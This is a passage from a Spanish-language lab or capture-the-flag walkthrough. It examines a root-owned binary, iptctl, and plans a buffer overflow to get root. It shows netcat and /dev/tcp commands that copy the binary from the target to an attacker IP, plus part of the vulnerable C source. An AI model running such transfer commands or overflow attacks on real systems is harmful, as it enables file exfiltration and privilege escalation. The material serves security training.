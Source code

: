 **Resultado:** encontramos un archivo interesante, acudimos a su ubicación `cd /opt/iptctl/` y con `file iptctl` vemos que es un archivo binario, es decir, un ejecutable. Este archivo vemos que además se ejecuta como usuario root. Con todo esto, y analizando el script escrito en `C` que encontramos anteriormente, vemos que corresponde a este binario, y que precisamente indica que el valor de caracteres permitidos en la entrada del usuario es bastante bajo `16 char`. Todo esto indica lo siguiente: si podemos ejecutar el binario (cosa que podemos como vamos a ver), si logramos hacer que se produzca un error de almacenamiento en el buffer, y si logramos controlar este error respecto a que caracteres almacenamos en la pila o stack. Podemos explotar un Buffer Over Flow que nos de acceso al sistema como usuario root.

```bash
./opt/iptctl/iptctl
```
### Buffer Over Flow

[<<<<<Para saber más sobre BUFFER OVER FLOW visite nuestro apartado dedicado a ello>>>>>](../../../../Buffer%20Overflow/)

**Acción:** nos pasamos a nuestra máquina atacante el binario para poder hacer las pruebas cómodamente en local. Una vez pasado le damos permisos de ejecución con `chmod +x iptctl`

Atacante:

```bash
nc -lvnp 4646 > iptctl
```

Objetivo:

```bash
cat < /opt/iptctl/iptctl > /dev/tcp/10.10.16.12/4646
```

**Nota:** con `md5sum iptctl` podemos comprobar si se ha corrompido la transferencia. Si tienen el mismo hash todo esta correcto, en caso de diferir el hash, algo en el binario ha cambiado o falta.

**Acción:** como disponemos del código fuente de la aplicación (lo encontramos en `/home/public/src/iptctl.c`) podemos examinarlo para entender su funcionamiento. Vamos a verlo paso a paso.

```c
  72   │ int main(int argc, char *argv[]){
  73   │     int isAction=0;
  74   │     int isIPAddr=0;
  75   │     pid_t child_pid;
  76   │     char inputAction[10];
  77   │     char inputAddress[16];
  78   │     char *args[10];
  79   │     char buffer[200];
  80   │ 
  81   │     if(argc!=3 && argc!=2){
  82   │         printf("Usage: %s allow|restrict|show IP_ADDR\n", argv[0]);
  83   │         exit(0);
  84   │     }
  85   │     if(argc==2){
  86   │         if(strstr(argv[1],"-i")) interactive(inputAddress, inputAction, argv[0]);
  87   │     }
```
